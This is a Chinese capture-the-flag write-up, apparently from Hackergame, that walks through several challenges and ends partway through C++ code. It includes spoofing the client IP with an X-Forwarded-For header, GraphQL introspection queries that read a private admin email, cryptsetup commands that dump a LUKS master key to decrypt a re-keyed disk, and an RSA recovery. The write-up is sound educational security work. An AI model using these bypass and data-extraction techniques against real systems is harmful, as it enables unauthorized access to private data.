> 3. 当用户累计的 flag 达到目标之后，可以保留提取 flag 机会 24 小时（保留时间从参与活动开始算起）。逾期未提取，flag 将会失效。
>
> 4. 每个用户只能够助力一次。为了建设世界一流大砍刀平台，活动要求位于同一 /8 网段的用户将会被视为同一个用户。（比如 IP 地址为 202.38.64.1 和 202.39.64.1 将被视为同一用户。）达到助力次数上线后，将无法再帮助好友助力。我们使用**前后端方式**检查用户的 IP 。
>
> 5. 如果用户以任何不正当手段或者舞弊方式参与本活动，一经发现，平台有权对该账户进行异常标记，并采取撤销 flag 等操作。不正当手段包括但不限于：使用非法工具分享、下载、安装、注册、登录、多个账户及其他不正当手段。
>
> 6. 如果用户存在违规行为（包括但不限于非法交易 flag 、恶意套现 flag 、以 flag 为筹码进行赌博、恶意撕毁 flag 等），平台将取消用户的活动资格，并撤销取得的相关利益，同时将依据相关规定进行处理。
>
> 7. 如果因为不可抗力或情形变化（包括但不限于重大自然灾害、活动遭受严重网络攻击或系统故障），导致本活动无法正常举办，平台可以决定暂停或终止本活动，并可依据相关规定主张免责。
>
> 8. 本活动一切解释权、裁定权、狗头权归大砍刀平台所有。

也就是说通过 IP 的前 8 位来判断，怎么伪造 IP 呢？

**先尝试下最简单的，直接参数传假 IP 给他：**

构造 payload：`ip=1.1.1.1` 发送 POST 请求——显然会失败，提示 IP 伪造

**想了一下，伪造 proxy 转发时可能会加上的 Header `X-Real-IP`：**

也不被服务端认可，提示 IP 伪造

**搜索了一下，发现有个 Header `X-Forwarded-For` 可以用：**

Bingo！成功伪造 IP，写个脚本从 0 请求到 255 即可（虽然不知道他接不接受 0 或者 255，发了总不亏嘛）

发送速度太快会 502，还需要设置 100ms 发送一次，每 10 次睡眠 1 秒

随后助力完成，flag 到手

# Amnesia

> 你的程序只需要输出字符串 `Hello, world!`（结尾有无换行均可）并正常结束。
>
> 编译指令：`gcc -O file.c -m32`
>
> 运行指令：`./a.out`
>
> 编译器版本：Docker 镜像 `ustclug/debian:10` 中 `apt update && apt -y upgrade && apt install -y gcc=4:8.3.0-1 gcc-multilib=4:8.3.0-1` 的版本
>
> **轻度失忆**
>
> 编译后 ELF 文件的 `.data` 和 `.rodata` 段会被清零。
>
> 连接题目：`nc 202.38.93.111 10051` 或[网页终端](http://202.38.93.111:10050/?token=2641%3AMEYCIQChHKKCzsyc%2B3Zx2zhA%2BcQjti%2BZZjnHqCa%2FOQzekJ8p%2BgIhAPrloOaxRL3Em%2Feh2j%2BGLJmonoViz7fksjn97RcFxwDO)
>
> 判题脚本：[下载](https://hack.lug.ustc.edu.cn/media/c4d3e46b-81aa-511d-a16c-e30cc5fda260/amnesia_1_checker.zip)
>
> **记忆清除**
>
> 编译后 ELF 文件的 `.text` 段会被清零。
>
> 连接题目：`nc 202.38.93.111 10061` 或[网页终端](http://202.38.93.111:10060/?token=2641%3AMEYCIQChHKKCzsyc%2B3Zx2zhA%2BcQjti%2BZZjnHqCa%2FOQzekJ8p%2BgIhAPrloOaxRL3Em%2Feh2j%2BGLJmonoViz7fksjn97RcFxwDO)
>
> 判题脚本：[下载](https://hack.lug.ustc.edu.cn/media/c4d3e46b-81aa-511d-a16c-e30cc5fda260/amnesia_2_checker.zip)

二进制题！（听起来就哈人，溜了

等下，第一问好像不难的样子...

## 轻度失忆

清空 ELF 文件的 `.data` 和 `.rodata` 段会发生什么呢？

试了一下，貌似是变量值都被清空了，因此这个 `Hello, world!` 无法被程序保存——那只要把数据存到别的段不就好了嘛！

于是，搜索得知如何指定段：

```c
__attribute__((section("name")))
```

最后代码就长这样子：

```c
#include<stdio.h>
char s[14] __attribute__((section("bipy"))) = "Hello, world!";
char fs[3] __attribute__((section("bipy"))) = "%s";
int main() {
    printf(fs, s);
    return 0;
}
```

提交，成功拿到 flag

> **记忆清除**
>
> 第二问，试了几种方式都不行
>
> 没有理论基础完全靠硬猜恐怕不可能做出来，溜了

# 图之上的信息

> 小 T 听说 GraphQL 是一种特别的 API 设计模式，也是 RESTful API 的有力竞争者，所以他写了个小网站来实验这项技术。
>
> 你能通过这个全新的接口，获取到没有公开出来的管理员的邮箱地址吗？

如果有接触过 GraphQL 这题应该很简单（~~可惜我没有，只能现学现卖~~


给了一个账号`guest`，登录之后刷新，就看到了这个 gql 的 API：



发现 payload 的格式是这样的：

```json
{
    "query":"{ notes(userId: 2) { id\ncontents }}"
}
```

大概就是查了 `userId=2` 这个人的笔记，包含 `id` 和 `contents` 字段，返回如下：

```json
{
  "data": {
    "notes": [
      {
        "id": 2,
        "contents": "Flag 是 admin 的邮箱。"
      }
    ]
  }
}
```

尝试把 `userId` 写成 1 然后发送 POST 请求，发现没有权限：

```json
{
    "query":"{ notes(userId: 1) { id\ncontents }}"
}
```

```json
{
  "errors": [
    {
      "message": "This user has no permission to access this.",
      "locations": [
        {
          "line": 1,
          "column": 3
        }
      ],
      "path": [
        "notes"
      ]
    }
  ],
  "data": {
    "notes": null
  }
}
```

通过搜索得知 GraphQL 有展示所有字段这种功能，来自[官方文档](https://graphql.org/learn/introspection/)

于是构造 payload，得到所有类型的名称：

```json
{
  "query": "{ __schema { types { name }}}"
}
```

```json
{
  "data": {
    "__schema": {
      "types": [
        {
          "name": "Query"
        },
        {
          "name": "GNote"
        },
        {
          "name": "Int"
        },
        {
          "name": "String"
        },
        {
          "name": "GUser"
        },
        {
          "name": "Boolean"
        },
        {
          "name": "__Schema"
        },
        {
          "name": "__Type"
        },
        {
          "name": "__TypeKind"
        },
        {
          "name": "__Field"
        },
        {
          "name": "__InputValue"
        },
        {
          "name": "__EnumValue"
        },
        {
          "name": "__Directive"
        },
        {
          "name": "__DirectiveLocation"
        }
      ]
    }
  }
}
```

注意到里面有个 `GUser`，查他！

```json
{
  "query": "{ __type(name: \"GUser\") { fields { name }}}"
}
```

Bingo！得到我们想要的 Email 字段的名称了：

```json
{
  "data": {
    "__type": {
      "fields": [
        {
          "name": "id"
        },
        {
          "name": "username"
        },
        {
          "name": "privateEmail"
        }
      ]
    }
  }
}
```

再看看 `Query` 这个 type 里面有什么：

```json
{
  "query": "{ __type(name: \"Query\") { fields { name }}}"
}
```

得到查询字段的名字：

```json
{
  "data": {
    "__type": {
      "fields": [
        {
          "name": "note"
        },
        {
          "name": "notes"
        },
        {
          "name": "user"
        }
      ]
    }
  }
}
```

OK，这样万事俱备，只差最后一查了（可不要有权限控制啊）：

```json
{
  "query": "{ user(id: 1) { id\nusername\nprivateEmail }}"
}
```

flag 成功到手，Don't Let GraphQL Leak Data！

```json
{
  "data": {
    "user": {
      "id": 1,
      "username": "admin",
      "privateEmail": "flag{dont_let_graphql_l3ak_data}"
    }
  }
}
```

# Easy RSA

> 自从 [Hackergame 2018 公然揭露了大整数可以被神童口算分解的事实](https://github.com/ustclug/hackergame2018-writeups/tree/master/official/RSA_of_Z#解法-1)，RSA 在 hackergame 中已经只能处于低分值的地位了。如果不在其名称前面加上 Easy 这个单词，似乎就会显得完全对不起其他题目。
>
> 更何况，在本题的附件中，你还获得了构造 p 和 q 的方式。数理基础扎实的你应该可以轻松解决这些问题吧。

一道 RSA 模拟题，做完后感觉我对 RSA 的理解又升华了一点...

## 附件

```python
import math
import sympy
from Crypto.Util.number import *

e = 65537


def get_p():
    x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
    y = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439
    value_p = sympy.nextprime((math.factorial(y)) % x)  # Hint：这里直接计算会溢出，请你仔细观察 x 和 y 的特征
    return value_p


def get_q():
    value = [getPrime(256)]
    for i in range(1, 10):
        value.append(sympy.nextprime(value[i - 1]))
    print("value[-1] = ", value[-1])
    # value[-1] = 80096058210213458444437404275177554701604739094679033012396452382975889905967
    n = 1
    for i in range(10):
        n = n * value[i]
    q = getPrime(512)
    value_q = pow(q, e, n)
    print("value_q = ", value_q)
    # value_q = 5591130088089053683141520294620171646179623062803708281023766040254675625012293743465254007970358536660934858789388093688621793201658889399155357407224541324547522479617669812322262372851929223461622559971534394847970366311206823328200747893961649255426063204482192349202005330622561575868946656570678176047822163692259375233925446556338917358118222905050574458037965803154233167594946713038301249145097770337253930655681648299249481985768272321820718607757023350742647019762122572886601905212830744868048802864679734428398229280780215896045509020793530842541217790352661324630048261329493088812057300480085895399922301827190211956061083460036781018660201163819104150988531352228650991733072010425499238731811243310625701946882701082178190402011133439065106720309788819
    return sympy.nextprime(q)

# this destroyes the rsa cryptosystem
p = get_p()
q = get_q()

m = int.from_bytes(open("flag.txt", "rb").read(), "big")
c = pow(m, e, p * q)
print("c = ", c)
# c = 110644875422336073350488613774418819991169603750711465190260581119043921549811353108399064284589038384540018965816137286856268590507418636799746759551009749004176545414118128330198437101472882906564195341277423007542422286760940374859966152871273887950174522820162832774361714668826122465471705166574184367478

```

观察可知，本题核心在于求出 `p` 和 `q` 的值，然后解密这个密文 `c` 即可

## p

`p` 由两个质数阶乘取模得到，其中：
$$
x=11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
$$

$$
y=11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439
$$

我们需要计算的 $p$：
$$
p=y!\bmod{x}
$$
由于 $y$ 非常大，想计算他的阶乘是不可能的，因此需要观察其特征：
$$
y=x-99012
$$
没错，$x$ 和 $y$ 的差很小，可以使用 **Wilson 定理**来计算阶乘取模

> **参考资料**
>
> [威尔逊定理 - OI-Wiki](https://oi-wiki.org/math/number-theory/wilson/)
>
> [Wilson's theorem - Wikipedia](https://en.wikipedia.org/wiki/Wilson%27s_theorem)
>
> [费马小定理 - OI-Wiki](https://oi-wiki.org/math/number-theory/fermat/)

其中 Wilson 定理的证明用到了费马小定理，感兴趣可以研究一下，我就不班门弄斧了

搜索得到一篇文章实现了利用 Wilson 定理的阶乘取模计算，写的非常好：

[Compute n! under modulo p - GeeksforGeeks](https://www.geeksforgeeks.org/compute-n-under-modulo-p/)

不过我看了半天也没看明白原理（是我太菜了），就厚颜无耻地直接拿过来用了：

```python
x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
y = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439

res = x - 1
for i in range(y + 1, x):
    res = (res * pow(i, x - 2, x)) % x

print(res)
# res = 10569944080090591401315432556965818857327680380269154543273468441025963038065648915158194147019839932524599260058098616377893091051396090650574162446875193

p = sympy.nextprime(res)
```

然后再计算 $res$ 的下一个质数，即为所得 $p$
$$
p = 10569944080090591401315432556965818857327680380269154543273468441025963038065648915158194147019839932524599260058098616377893091051396090650574162446875263
$$

## q

由附件，首先生成了一个随机 256 bit 的质数，然后求得了接下来 9 个质数，共计 10 个连续的质数

通过注释的第 10 个质数，即可倒推出他的前 9 个质数

随后将这 10 个质数相乘，得到 $n_{10}$，随后计算了 $value_q$：

```python
# q 为随机 512 bit 质数
q = getPrime(512)
# 根据 e 和 n_10 将 q 加密
value_q = pow(q, e, n)
```

这里由于我们知道所有的质因子，所以直接算出对应的 $d_{10}$：

```python
phi = 1
for i in range(10):
    phi = phi * (value[i] - 1)

d = gmpy2.invert(e, phi)
```

然后使用 $d_{10}$ 和 $n_{10}$ 将 $q$ 解密：

```python
q = pow(value_q, d, n)

print(q)
# 10477925992460766451892208516181598312750484426056814542870756188277177949099084361476539803367804757559880919838828678145609717295215924948786830953570263

q = sympy.nextprime(q)
```

根据附件代码，再取下一个质数，得到：
$$
q=10477925992460766451892208516181598312750484426056814542870756188277177949099084361476539803367804757559880919838828678145609717295215924948786830953571811
$$
这样 $p$ 和 $q$ 就都到手了，问题迎刃而解

首先计算出 $d$ ：

```python
d = gmpy2.invert(e, (q - 1)*(p - 1))
```

然后解密 $c$ 得到 $m$：

```python
m = pow(c, d, p * q)
print("m = ", m.to_bytes(28, "big").decode('utf-8'))
```

转成字符串，flag 到手

# 加密的 U 盘

> 这是一个关于 LUKS (Linux Unified Key Setup) 的故事。
>
> 第一天
>
> 小 T：「你要的随机过程的课件我帮你拷好了，在这个 U 盘里，LUKS 加密的密码是 `suijiguocheng123123`。」
>
> 小 Z：「啊，你又搞了 Linux 文件系统加密，真拿你没办法。我现在不方便用 Linux，我直接把这块盘做成磁盘镜像文件再回去处理吧。」
>
> 第二天
>
> 小 Z：「谢谢你昨天帮我拷的课件。你每次都搞这个加密，它真的安全吗？」
>
> 小 T：「当然了！你看，你还给我之后，我已经把这块盘的弱密码改掉了，现在是随机生成的强密码，这样除了我自己，世界上任何人都无法解密它了。」
>
> 小 Z：「我可不信。」
>
> 小 T：「你不信？你看，我现在往 U 盘里放一个 flag 文件，然后这个 U 盘就给你了，你绝对解密不出来这个文件的内容。当初搞 LUKS 的时候我可研究了好几天，班上可没人比我更懂加密！」

~~恕我孤陋寡闻没听说过 LUKS~~

搜索得知 LUKS 改密码不会更改 master key，使用 master key 就可以无需密码解密 LUKS

真正的难题来了 Mac M1 用户去哪搞 Linux 实验环境（不想用 Server 生产环境

折腾了一会这个 Mac ARM 套娃 Docker，打开个 `/dev/loop` 设备这没权限，那没权限

突然想到阿里云可以免费开机器用，一两个小时的时间也够用了

首先安装 `cryptsetup` 和 `unzip`，然后下载镜像，解压

根据题目描述，这个镜像文件是整个 U 盘的镜像，直接 `mount` 还  `mount` 不上，搜索得知需要先把 image 文件搞到 loop 上：

```bash
losetup /dev/loop1 day1.img
```

依然无法挂载，再搜索得知需要 map 一下里面的分区：

```bash
kpartx -av /dev/loop1
```

然后打开 LUKS：

```bash
cryptsetup luksOpen /dev/mapper/loop1p1 day1
# then enter passphare
```

输完密码即可挂载：

```bash
mount /dev/mapper/day1 /mnt/day1
```

然后问题是怎么获得 master key——搜索到几种方法都没用，最后在官方文档找到：



然后就得到了二进制版 master key：

```bash
cryptsetup luksDump --dump-master-key /dev/mapper/loop1p1 --master-key-file master-key
```

使用 master key 打开并挂载 day2.img：

```bash
losetup /dev/loop2 day2.img
kpartx -av /dev/loop2
cryptsetup --master-key-file=./master-key luksOpen /dev/mapper/loop2p1 day2
mount /dev/mapper/day2 /mnt/day2
```

叮～拿到 flag：

```bash
cd /mnt/day2
cat flag.txt
```

# 赛博厨房

> 虽然这是你的餐厅，但只有机器人可以在厨房工作。机器人精确地按照程序工作，在厨房中移动，从物品源取出食材，按照菜谱的顺序把食材依次放入锅内。
>
> 机器人不需要休息，只需要一个晚上的时间来学习你教给它的程序，在此之后你就可以在任何时候让机器人执行这个程序，程序的每一步执行都会被记录下来，方便你检查机器人做菜的过程。
>
> 另外为了符合食品安全法的要求，赛博厨房中的机器人同一时间手里只能拿一种食物，每次做菜前都必须执行清理厨房的操作，把各处的食物残渣清理掉，然后回到厨房角落待命。
>
> 每天的菜谱可能不同，但也许也存在一些规律。
>
> 对机器人编程可以使用的指令有（`n, m` 为整数参数，程序的行号从 0 开始，注意指令中需要正确使用空格）：
>
> ```
> 向上 n 步
> 向下 n 步
> 向左 n 步
> 向右 n 步
> 放下 n 个物品
> 拿起 n 个物品
> 放下盘子
> 拿起盘子
> 如果手上的物品大于等于 n 向上跳转 m 行
> 如果手上的物品大于等于 n 向下跳转 m 行
> ```
>
> 赶紧进入赛博厨房开始做菜吧！

## Level 0



简单的编程模拟器，这一关菜谱会有`0, 1` 和 `1, 0` 两种情况，准备好两种程序即可：

```bash
# 0，1
向右 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
向右 2 步
向上 1 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品

# 1，0
向右 2 步
拿起 1 个物品
向下 1 步
向左 2 步
放下 1 个物品
向右 1 步
向上 1 步
拿起 1 个物品
向下 1 步
向左 1 步
放下 1 个物品
```

## Level 1



需要拿 73 个 0 号物品，而程序最多只能有 72 行，因此写一个循环即可：

```bash
# 73
向右 1 步
拿起 73 个物品
向下 1 步
向左 1 步
放下 1 个物品
如果手上的物品大于等于 1 向上跳转 1 行
```

> No Win!
>
> 后面两关尝试修改 js，结果发现 flag 是服务端下发的，遂作罢

# 助记词

> 你的室友终于连夜赶完了他的 Java 语言程序设计的课程大作业。看起来他使用 Java 17 写了一个保存助记词的后端，当然还有配套的前端。助记词由四个英文单词组成，每个用户最多保存 32 条。
>
> 你并没有仔细看过他写的任何代码；实际上你压根没有选过这门课。然而，你的室友平常总是在你的耳边喋喋不休 Java 这门编程语言的优越性，虽然无非就是些诸如「微服务」和「大数据」之类的词。当然，他的课程大作业里似乎既没有「微服务」也没有「大数据」，32 条记录也叫「大数据」？
>
> 你正糊里糊涂地整理着你自己的书包，并在心中暗骂教务处为何要把这门课安排在早上 7:50。你的室友通宵了一晚上，正准备爬上他的床。虽然他忙了一晚上，但他看起来一点也不累：他又在和你炫耀 Java 在性能上的优越性了。
>
> 你从他充满激情却又夹杂不清的表述中得知，他似乎还为此专门在大作业里藏了两个 flag：当访问延迟达到两个特殊的阈值时，flag 便会打印出来，届时你便可以拿着 flag 让你的室友请你吃一顿大餐。
>
> 请吃饭倒是次要了，重点是想个办法杀杀他的锐气——你在心里这样想着。突然，你回想起来你的室友在几天前为方便调试，在代码里人为添加了一段延时代码，也不知道他有没有删掉。他之前甚至还朝你炫耀过他的这一「技术」，因为「这样就可以方便手动暂停了」——至于为什么他连打断点都不会，那就不得而知了。
>
> 你决定在今天早上的课上把你室友的大作业拿过来试一试——反正这门课已经够无聊了，还不如搞点有意思的。

## 第一顿大餐

其实就是 Java 的一个 RESTful API，抓包拿到 API

然后观察源代码，发现需要在一个循环里面运行 600 ms 以上，随后马上注意到 `Phrase` 这个 `record` 里面有个 `sleep` 函数

```java
@Override
public boolean equals(Object o)
{
    if (o instanceof Phrase that)
    {
        try
        {
            TimeUnit.MILLISECONDS.sleep(EQUALS_DURATION_MILLIS); // TODO: remove it since it is for debugging
        }
        catch (InterruptedException e)
        {
            throw new RuntimeException(e);
        }
        return that.text.equals(this.text) && that.time.equals(this.time) && that.user.equals(this.user);
    }
    return false;
}
```

又注意到储存容器使用的是 `LinkedHashSet`，那插入数据时肯定就会调用`Phrase` 自己 override 的 `hashCode()` 方法：

```java
@Override
public int hashCode()
{
    return Objects.hash(this.text, this.time, this.user);
}
```

又注意到这个方法把时间戳放进去做 hash 运算了，因此只需要在一个请求中发送重复的 32 个字符串，由于每一个字符串，时间戳和用户都一致，自然会 hash 冲突，共计调用32次 `equals()`，每次睡 20 ms，即可达到 600 ms 拿到 flag

> **第二顿大餐**
>
> 一样的系统，要做到 9000 ms 需要构造 32 个满足在 HashSet 里面位置冲撞但不相同的 `Phrase`，这样 Set 退化成链表之后每次插入调用平均 15 次 `equals()`
>
> ```java
> int pos = (n - 1) & ((h = Objects.hash(text, time, user)) ^ (h >>> 16));
> ```
>
> 尝试构造了一会，一想到大于 16 个数的时候还要扩容，还要带着时间戳...
>
> 真不愧是挂着数学 tag 的，惹不起，溜了...

# 马赛克

> 共享单车只剩下一辆，走近一看，果然是一辆二维码被坏人涂掉一大块的车，谁也骑不走。
>
> > 我今天还非就要把这个辆车骑走。
>
> 于是你开始研究起来这个二维码。
>
> 

一个被打了码的二维码，同时提供了生成算法——

于是我路子成功走歪了，生成了 3000 张图片炼丹去了，最后发现直接过拟合，效果不怎么好

怎么办呢？观察了一下马赛克的边界，跟二维码的边界基本上都是错开的，于是生成了一个 CSV 到 Excel 里面尝试研究一下规律：



拿纸笔算了两个框，发现有戏，直接抄起 C++ 开始写：

```c++
#include <iostream>
#include <vector>
#include <fstream>
#include <cmath>
#include <deque>
#include <unordered_map>
#include <unordered_set>

using namespace std;

/**
 * O -------------> Y
 * |
 * |    QR Code
 * |
 * |
 * X
 */

struct Box {
    int total;
    int val;
    int x1, x2, y1, y2;
    bool lock;
};

struct Block {
    int val{}; // 255 or 0
    bool lock{};
};

struct Mosaic {
    bool lock{};
    int idx_i{}, idx_j{};
    int val{};
    int x1{}, x2{}, y1{}, y2{};
    vector<int> possible_white;
    vector<vector<Box> > grid;
};

bool flag = false;
vector<vector<int> > QRCode;
vector<vector<Mosaic> > MosaicMap;
